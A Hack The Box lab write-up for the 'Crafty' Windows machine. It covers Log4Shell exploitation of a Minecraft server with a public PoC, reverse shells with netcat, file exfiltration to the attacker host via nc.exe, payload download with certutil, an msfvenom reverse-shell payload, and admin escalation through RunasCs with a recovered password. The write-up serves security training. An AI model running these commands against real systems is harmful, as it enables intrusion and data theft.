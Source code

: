 ```yaml
---
date: 2024-06-12T21:19:39-05:00
# description: ""
image: "/images/HTB-Crafty/Crafty.png"
showTableOfContents: true
tags: ["HackTheBox"]
categories: ["Writeups"]
title: "HTB: Crafty"
type: "post"
---
```


* Platform: Hack The Box
* Link: [Crafty](https://app.hackthebox.com/machines/Crafty)
* Level: Easy
* OS: Windows
---

Crafty is a Windows Server 2019 running Minecraft 1.16.5, this version is vulnerable to Log4Shell (`CVE-2021-44228`) and after using a PoC of the exploit we gain our initial foothold. On the target system, we find an archive containing some credential that we use to obtain an administrative shell.

Target IP - `10.10.11.249`


## Scanning 

```
sudo nmap -sC -sV -p- -oA nmap/Crafty 10.10.11.249
```

**Results**

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-26 13:56 CST
Nmap scan report for crafty.htb (10.10.11.249)
Host is up (0.054s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE   VERSION
80/tcp    open  http      Microsoft IIS httpd 10.0
|_http-title: Crafty - Official Website
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 0/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 171.62 seconds
```

We find two open ports:

* 80 running HTTP
* 25565 running a Minecraft server with version 1.16.5

Even though there is no redirection let's add `crafty.htb` to our hosts file.

```
sudo echo "10.10.11.249 crafty.htb" | sudo tee -a /etc/hosts
```

## Enumeration

When we go to the website we find a web page about a game called Crafty.

![Crafty website](/images/HTB-Crafty/crafty-webpage.png)

There is nothing interesting on the web application so we turn our attention to the Minecraft server. When searching `minecraft 1.16.5 vulnerability` we find that there is a Log4j exploit for it with [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228).

> `play.crafty.htb` redirects us to the main website.

![Minecraft Log4j exploit](/images/HTB-Crafty/log4j-Minecraft.png)

We then find a PoC for the exploit at this [Github repo](https://github.com/kozmer/log4j-shell-poc?source=post_page-----316a735a306d--------------------------------).

After checking the content of `poc.py` we notice that it is using `String cmd="/bin/sh";` which will not work on Windows. In order to make it Windows compatible we change that line to `String cmd="cmd.exe";`.

![Log4j PoC content](/images/HTB-Crafty/log4j-poc-content.png)

![Log4j PoC content change](/images/HTB-Crafty/poc-python-change.png)

On the exploit page, we read: "**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory."

Going to the website provided on the Github page we are required to create an account. After searching around we find some java archives on https://repo.huaweicloud.com/java/.

For a quick download and setup use the commands below.

```
#Make sure to download it in the log4j-shell-poc directory
wget https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz

tar -xf jdk-8u181-linux-x64.tar.gz

#Rename the file
mv jdk1.8.0_181 jdk1.8.0_20
```

## Initial Foothold

Here are all our files.

![Log4j PoC files](/images/HTB-Crafty/log4j-poc-files.png)

We need a way to communicate with the Minecraft server, we will use [pyCraft](https://github.com/ammaraskar/pyCraft) for that. Let's setup a virtual environment for pyCraft.

```
virtualenv ENV

source ENV/bin/activate

pip install -r requirements.txt
```

![PyCraft setup](/images/HTB-Crafty/pyCraft-setup.png)

Now we setup a listener to catch the shell.

```
rlwrap nc -lvnp 4444
```

Then we start the log4j exploit from the `log4j-shell-poc` directory.

```
python3 poc.py --userip <IP_ADDRESS> --webport 80 --lport <PORT_NUMBER>
```

![Log4j exploit launch](/images/HTB-Crafty/crafty-exploit.png)

From the `PyCraft` folder we run `start.py`

```
python3 start.py
```

After the `Connected.` message appears in PyCraft. We copy the link provided on the line starting with `Send me:` in `log4j-shell-poc`, paste it in pyCraft then press `Enter` and we catch a shell on the listener.

![PyCraft](/images/HTB-Crafty/PyCraft-connection-link.png)

> If PyCraft fails to connect to the server, resetting the box should solve the issue.

![svc_minecraft shell](/images/HTB-Crafty/shell-minecraft.png)

The user flag is on the user desktop.

![Crafty user flag](/images/HTB-Crafty/crafty-user-flag.png)

## Privilege Escaltion

In `c:\Users\svc_minecraft\server\plugins\` we find an archive named `playercounter-1.0-SNAPSHOT.jar`.

To send that file to our local machine we use `nc.exe` (Netcat for Windows)

1. Download `nc.exe` with 

```
wget https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip
```

2. Move into the `netcat-1.11` directory created after the extraction

3. Start a web server with Python

```
python3 -m http.server
```

4. We download `nc.exe` on the target

```
certutil.exe -urlcache -split -f http://IP:PORT/nc.exe nc.exe
```

![netcat upload on target](/images/HTB-Crafty/nc.exe-ontarget.png)

5. On our local machine we run

```
nc -nlp 1235 > playercounter-1.0-SNAPSHOT.jar
```

6. Finally, we send the archive to our Kali machine 

```
.\nc.exe 10.10.14.222 1235 < c:\Users\svc_minecraft\server\plugins\playercounter-1.0-SNAPSHOT.jar
```

![Crafty archive exfiltration](/images/HTB-Crafty/archive-exfiltration.png)

> Stop the listener to regain control of the terminal on the target system.

After extracting the archive, we get `Playercounter.class` in `/htb/crafty/playercounter/`which we decompile with [decompiler.com](https://www.decompiler.com/).

> A `.class` file is a compiled Java bytecode file. When you compile a Java source code file (`.java`), the Java compiler (`javac`) translates the human-readable Java code into a platform-independent bytecode format. This bytecode is then stored in `.class` files. In our case `Playercounter.class` contains the compiled bytecode for the `Playercounter` Java class.

We find what looks like some credential (`s67u84zKq8IXw`) used when connecting to a service on port 27015 (typically used by online games). 

![archive content credentials](/images/HTB-Crafty/playercount-file.png)

We have a tool called [RunasCs](https://github.com/antonioCoco/RunasCs) that enables us to execute processes with permissions different from our current user's. Our objective is to get an Administrator shell from the current user `svc_minecraft`.

Let's generate a payload with `msfvenom`.

**Example**

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=<YOUR IP ADDRESS> lport=<PORT NUMBER> -f exe -a x64 --platform windows -o shell.exe
```

`shell.exe` and `RunasCs.exe` are transferred to the target using the same method employed for `nc.exe`.

![malicious file and runascs.exe on target](/images/HTB-Crafty/files-on-target.png)

We setup another listener on the port selected for the `msfvenom` payload.

```
rlwrap -cAr nc -lvp <PORT_NUMBER>
```

We then use `runasCs` in conjunction with the malicious file.

```
.\runasCs.exe administrator s67u84zKq8IXw shell.exe --bypass-uac
```

We get a connection on the listener, as `administrator`.

![admin shell](/images/HTB-Crafty/admin-shell.png)

At `C:\Users\Administrator\Desktop` we find `root.txt`.

![root flag](/images/HTB-Crafty/root-flag.png)

## Closing Words

Log4j is considered one of the most severe vulnerability because it allows attackers to easily take over vulnerable systems. It is very important to be able to recognize and test for those popular vulnerabilities. If you want to learn more about it, below are a video and an article detailing it:

* [Apache Log4j: The Exploit that Almost Killed the Internet](https://www.youtube.com/watch?v=UhuL11JaECM&ab_channel=IntotheShadows)
* [Log4J Vulnerability Explained: What It Is and How to Fix It](https://builtin.com/articles/log4j-vulerability-explained)
